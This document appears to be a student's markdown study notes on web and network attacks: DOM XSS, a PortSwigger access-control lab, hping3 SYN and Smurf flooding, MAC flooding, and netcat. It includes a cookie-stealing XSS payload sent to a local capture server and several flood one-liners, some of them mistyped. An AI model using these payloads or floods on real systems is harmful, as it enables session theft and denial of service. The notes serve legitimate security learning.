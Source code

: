# File Inclusion

Check for [File Inclusion Vulnerabilty](../day5/day5.md#file-inclusion-vulnerability) if you learn the basic working where we discuss how things really work in here.

# Direct Object Modal XSS

Refer to [OWASP DOM Based XSS Attack](https://owasp.org/www-community/attacks/DOM_Based_XSS) which tell about the making DOM based XSS Attack.

Steps to performing the practical is the following:

- Go to the page and make changes to the url, the redirected in *default* should be the following:

```
<script>window.location='http://127.0.0.1:1337/cookie?=' + document.cookie</script>
```

And this will get directed the attacker side machine which will be provide the attacker with the session id of the machine or the application that user will be using, say it could be *facebook* or say *youtube*, but the attack might be able to get the sesssion id.

For that attacker would be running an session capture mechanism on his side.

```
python -m http.server 1337
```

This command lets the attacker to listen on port 1337 where he can have the access of the session id.


# Reflected XSS

Refer to [OWASP XSS (Cross-site Scripting)](https://owasp.org/www-community/attacks/xss/) to learn more about it. 



# (ZAP) ZED Attacking Proxy

Move to Source Code Analysis tools, in order to see the tools that are used in order to identify that whether the source code is secure or not.

You can run ap in Kali Linux, using the following cmd.

```
sudo apt install zaproxy
```

It includes DAST and SAST.

# Method-based access control can be circumvented

It is the very vulnerability where normal users are able to promote themselves to the admin account using manipulation of the http requests. Our target is promte to normal user using the adminintrative priveleges by exploiting the method based flaws. Follow the [link](https://portswigger.net/web-security/access-control/lab-method-based-access-control-can-be-circumvented) to access the Lab.

Steps to do that:

- Open the lab and login in with credentials (administrator, admin) and see if you are able to upgrade the users, *which you'll be able to*, use burp-suite to track down the request made and **send it to the repeater**.

- Next, try to log in with normal user, and try to change the http request by copying the session id of the user that you've logged in as, and go to the repeater and change the session id of the request that was made with the new one.

- Now *double-click* and change the request to the GET, now change the username to the user you are logged in as and send the request, you'll noteice that you are able to make the change without being an administrator.

# Active Scanning and Finger-printing


```
sudo hping3 -s --scan $PORT_RANGE $TARGET_IP
```

This `-S` means that check for SYN packages, and specify the port range and target IP Address. It will give the command like this.

```
sudo hping3 -S -p 80 $TARGET_IP
```

This is only happen if the port number is open then only it will respond to the SYN message, otherwise it won't give you the message, otherwise it won't give you the response. 

Now in order you wish ro flood the request with the SYN packages, in order that the machine gets all the messages on the destination machine. **Do a experiment**, create two machine and run wireshark over both of them, when you'll start with the SYN flooding, you can check the wireshark to see how packets are going on both the machines. Destination machine will be occuring with high latency, because the website is bussy in reposding to SYN messages.

```
sudo hing3 -S -p 80 $TARGET_IP --flood
```

Use the following to flood the traffic between the two IPs.

```
sudo hping -S -p $SOURCE_IP -a $DESTINATION_IP
```

But you can try to flood the SYN packages between the two IPs.

```
sudo hping -S -p $SOURCE_IP -a $DESTINATION_IP --flood
```

This is called **LAND Attack**, where we are spoofing the traffic which is going from your local machine but it seems like it is comming from machine.

```
sudo hping --icmp
```

# ICMP Smurfing Attack

You need to run one command and thing will start happening.

```
sudo hping3 --icmp -c 1 192.168.0.255 --rand-source --flood
```

This will send the ICMP messages to the Broadcast address of the router with some random IP address and flood the router with ICMP address, such that router will not be able to send reposnse to other machines in the network.

# `macof`: MAC Flooding 

It is a Layer 2 Attack and you can flood mac addresses and use the tool named **macof** to flood the mac addresses. 
```
sudo macof -i en9
```

And that's it, you'll be able to find the random MAC addresses generating out of nowhere. 

# `nc`: NetCat 

The command `nc` allows you to communicate with the other machine across your network, all you need to do is create a socket and bind it to the port and start the conversation.

```
# On Machine 1
nc -l 1337
```

Now on different machine, you can connect to the Machine 1 with the same port.

```
# On Machine 2
nc <ip-address> 1337
```

This will create a network and you'll be able to share the messages across.

# Resources

Visit the [portswigger website](https://portswigger.net/web-security) in order to learn more about the methods and latest web based hacks or vulnerabilities in order to protect the website from hacks and threats. 

Visit to [OWASP Input Validation](https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html) to look how the inputs taken from the users can't be trusted, secure the methods of taking inputs.

1. Remember to read about the **SAST and DAST tools** and therefore look for it.
2. Read about MVC Structure. Also remember to look for Web Framework, Flask.
3. Js-gaurd is not secure, even if the website is full of virus, it won't block the website. *Need to check it!*

Visit [Offsec File Inclusion Vulnerability](https://www.offsec.com/metasploit-unleashed/file-inclusion-vulnerabilities/) to learn more about how things work, it explains the RFI as well as LFI.
